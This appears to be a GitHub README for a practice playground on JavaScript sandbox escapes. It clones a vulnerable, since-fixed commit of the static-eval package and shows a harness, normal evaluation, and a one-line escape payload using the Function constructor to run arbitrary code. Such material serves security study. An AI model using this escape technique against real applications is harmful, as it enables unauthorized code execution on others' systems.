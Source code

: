 # JS Sandbox Escape - Playground

This Playground is based on different JS Sandbox technique an it useful to improve Sandbox escaping technique


## static-eval 
- Project 
    - [static-eval](https://www.npmjs.com/package/static-eval) cloned from following commit 
        ```
        git clone git@github.com:browserify/static-eval.git
        git checkout c0e719f6b689b5c0f9fc84125741509891ac10ca
        ```
        Following vulnerability was fixed as described on [static-eval PR-18](https://github.com/browserify/static-eval/pull/18)
- Reference
    -   [maustin.net - Unsafe Code Execution in static-eval](https://maustin.net/articles/2017-10/static_eval?source=post_page---------------------------)

### Build
```
npm install
```

### Test Case 
```
$ cat eval.js 
var evaluate = require('../index.js');
var parse = require('esprima').parse;

var src = process.argv.slice(2).join(' ');
var ast = parse(src).body[0].expression;

console.log(evaluate(ast));
```

### Normal Sandboxed Execution
- math
```
node eval.js '1+1'
2

```
- console.log
```
node eval.js 'console.log(1)'
undefined
```


### Sandbox Escape Exploit Example
- console.log

```
node eval.js '(function () {}).constructor("console.log(1)")()'
1
```
